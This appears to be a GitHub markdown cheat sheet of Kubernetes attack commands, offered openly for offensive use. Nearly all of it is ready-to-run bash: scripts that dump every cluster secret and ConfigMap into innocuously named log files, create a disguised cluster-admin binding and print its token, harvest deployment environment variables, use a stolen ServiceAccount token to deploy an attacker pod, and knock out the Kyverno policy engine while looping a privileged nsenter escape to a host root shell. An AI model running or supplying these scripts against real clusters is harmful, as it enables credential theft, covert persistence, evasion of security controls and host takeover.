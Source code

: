# Kubernetes malicious commands 

Keep in mind that additional info is present [here](https://team-recon-black-ops.github.io/maldev-blog/containers/kubernetes/) 

## Summary
- [Kubernetes malicious commands](#kubernetes-malicious-commands)
  - [Summary](#summary)
  - [Search for ClusterAdmins](#search-for-clusteradmins)
  - [Dump all Secrets of the Cluster](#dump-all-secrets-of-the-cluster)
  - [Create a ClusterRole with ClusterAdmin privileges](#create-a-clusterrole-with-clusteradmin-privileges)
  - [Search for loot in Environment Variables that were added in Deployment YAMLs](#search-for-loot-in-environment-variables-that-were-added-in-deployment-yamls)
  - [Dump ConfigMaps of the Cluster](#dump-configmaps-of-the-cluster)
  - [Spawn a pod from within a Pod using the auto mounted ServiceAccount Token](#spawn-a-pod-from-within-a-pod-using-the-auto-mounted-serviceaccount-token)
  - [Kill Kyverno Policy Engine](#kill-kyverno-policy-engine)

## Search for ClusterAdmins

```bash
kubectl get clusterrolebinding | grep -i cluster-admin
```

## Dump all Secrets of the Cluster
This requires to be very privileged and persist the output as "crash.log" in the current working directory

```bash
#!/bin/bash

output_file="crash.log"

if [ -f $output_file ] ; then
    rm $output_file
fi

namespaces=$(kubectl get ns -o jsonpath="{.items[*].metadata.name}")

for namespace in $namespaces; do
    secrets=$(kubectl get secrets -n $namespace -o jsonpath="{.items[*].metadata.name}")

    for secret in $secrets; do
        echo "Namespace: $namespace, Secret: $secret" >> $output_file
        kubectl get secret $secret -n $namespace -o yaml >> $output_file
        echo "---" >> $output_file
    done
done
```
## Create a ClusterRole with ClusterAdmin privileges

```bash
#!/bin/bash

namespace="default"
cluster_admin_username="cluster-maintenance"
service_account_name="cluster-maintenance"


kubectl create clusterrolebinding $cluster_admin_username \
  --user=$cluster_admin_username \
  --clusterrole=cluster-admin

kubectl create serviceaccount $service_account_name --namespace=$namespace
sleep 5

kubectl create clusterrolebinding myrolebinding --clusterrole=cluster-admin --serviceaccount=default:racoon-rumble

secret_name=$(kubectl get serviceaccount $service_account_name -o=jsonpath='{.secrets[0].name}' --namespace=$namespace)

access_token=$(kubectl get secret $secret_name -o=jsonpath='{.data.token}' --namespace=$namespace | base64 --decode)
  
echo "Cluster-admin user: $cluster_admin_username"
echo "ServiceAccount name: $service_account_name"
echo "Access Token: $access_token"
```

## Search for loot in Environment Variables that were added in Deployment YAMLs

```bash
#!/bin/bash

# Empty the output file
> info.log


for namespace in $(kubectl get ns -o jsonpath='{.items[*].metadata.name}')
do

  for deployment in $(kubectl -n $namespace get deploy -o jsonpath='{.items[*].metadata.name}')
  do
    echo "---" >> info.log
    echo "Namespace: $namespace" >> info.log
    echo "Deployment: $deployment" >> info.log
    kubectl -n $namespace get deploy $deployment -o yaml >> info.log

    echo "Environment Variables:" >> info.log
    kubectl -n $namespace get deploy $deployment -o jsonpath='{.spec.template.spec.containers[*].env}' >> info.log
    echo "Image:" >> info.log
    kubectl -n $namespace get deploy $deployment -o jsonpath='{.spec.template.spec.containers[*].image}' >> info.log
    echo "Network Configuration:" >> info.log
    kubectl -n $namespace get deploy $deployment -o jsonpath='{.spec.template.spec.containers[*].ports}' >> info.log
  done
done
```

## Dump ConfigMaps of the Cluster

```bash
#!/bin/bash
output_file="crash-config.log"
if [ -f $output_file ]; then
    rm $output_file
fi
namespaces=$(kubectl get ns -o jsonpath="{.items[*].metadata.name}")

for namespace in $namespaces; do
    configmaps=$(kubectl get configmaps -n $namespace -o jsonpath="{.items[*].metadata.name}")
    for configmap in $configmaps; do
        echo "Namespace: $namespace, ConfigMap: $configmap" >> $output_file
        kubectl get configmap $configmap -n $namespace -o yaml >> $output_file
        echo "---" >> $output_file
    done
done
```
## Spawn a pod from within a Pod using the auto mounted ServiceAccount Token 

This comes in handy if you managed it to get LFI or an SSRF vulnerability

```bash
#!/bin/sh

API_SERVER="https://${KUBERNETES_SERVICE_HOST}:${KUBERNETES_SERVICE_PORT}"
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
NAMESPACE=$(cat /var/run/secrets/kubernetes.io/serviceaccount/namespace)

YAML_MANIFEST=$(cat <<EOF
apiVersion: v1
kind: Pod
metadata:
  name: debug-pod
  namespace: ${NAMESPACE}
  labels:
    app: mtkpi
spec:
  containers:
  - name: debug-pod
    image: r0binak/mtkpi:v1.4 
    ports:
    - containerPort: 7681
EOF
)

curl -k -X POST "${API_SERVER}/apis/apps/v1/namespaces/${NAMESPACE}/deployments" \
    -H "Authorization: Bearer ${TOKEN}" \
    -H "Content-Type: application/yaml" \
    --data-binary "${YAML_MANIFEST}"
```

## Kill Kyverno Policy Engine

```bash
SVCIP="$(kubectl get svc -n kyverno kyverno-svc --output jsonpath='{.spec.clusterIP}')"
PODNAME="$(kubectl get pod -n kyverno -l app.kubernetes.io/component=admission-controller --output name | sed -e 's/^pod\///g')"
PODIP="$(kubectl get pod -n kyverno $PODNAME --output jsonpath='{.status.podIP}')"
kubectl apply -f - <<EOF
apiVersion: apps/v1
kind: Deployment
metadata:
  name: attack
spec:
  selector:
    matchLabels:
      app: attack
  template:
    metadata:
      labels:
        app: attack
    spec:
      containers:
      - image: nginx:latest
        name: nginx
        ports:
        - containerPort: 80
---
apiVersion: v1
kind: Service
metadata:
  name: attack
spec:
  type: ClusterIP
  selector:
    app: attack
  ports:
  - name: https
    protocol: TCP
    port: 9443
    targetPort: 80
  externalIPs:
    - $PODIP
    - $SVCIP
EOF
# ATTACK!
while true; do
  kubectl scale deployment.v1.apps/attack --replicas=2;
  kubectl run r00t --restart=Never -ti --rm --image lol --overrides '{"spec":{"hostPID": true, "containers":[{"name":"1","image":"busybox","command":["nsenter","--mount=/proc/1/ns/mnt","--","/bin/bash"],"stdin": true,"tty":true,"securityContext":{"privileged":true}}]}}';
  kubectl scale deployment.v1.apps/attack --replicas=3;
done
```


